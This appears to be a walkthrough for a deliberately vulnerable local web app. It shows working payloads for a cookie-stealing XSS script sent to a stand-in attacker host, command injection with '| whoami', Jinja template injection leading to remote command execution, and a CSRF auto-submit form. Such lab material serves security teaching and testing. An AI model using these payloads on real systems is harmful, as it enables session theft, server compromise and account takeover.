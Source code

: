 ```
<script>document.location='http://veryevilhacker.com?cookie='+document.cookie</script>
```

An attacker hosting the malicious site can look at the log data and sees the user's cookie value to authenticate as the user.


### Command injection:


go to http://127.0.0.1:8080/ping and

enter "127.0.0.1 | whoami"


### XSS Reflected:


### SSTI:

Vulnerable Endpoint: http://127.0.0.1:8080/find_secret?file=

If you supply a file name that doesn't exist on the backend, it shows an error such as "404 page not found: the resource does not exist!".

Since the template is being used insecurely, it's vulnerable to SSTI.

Simply supply {{ 7 * 7 }} for the file parameter and observe it returns 49.

We can also achieve a RCE with: (reveals the files in the current directory)

```
http://127.0.0.1:8080/find_secret?file={%%20for%20x%20in%20().__class__.__base__.__subclasses__()%20%}{%%20if%20%22warning%22%20in%20x.__name__%20%}{{x()._module.__builtins__[%27__import__%27](%27os%27).popen(%22dir%22).read()}}{%endif%}{%%20endfor%20%}
```


### CSRF attack

After logging in, there's a functionality to change the current user's email.

Since the CSRF token is not implemented, attacker can craft a payload and put it inside a website to trick a user to visit the site, then submit a form to change the logged-in user's email to whatever the email attacker specifies it as.
Payload:
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

```
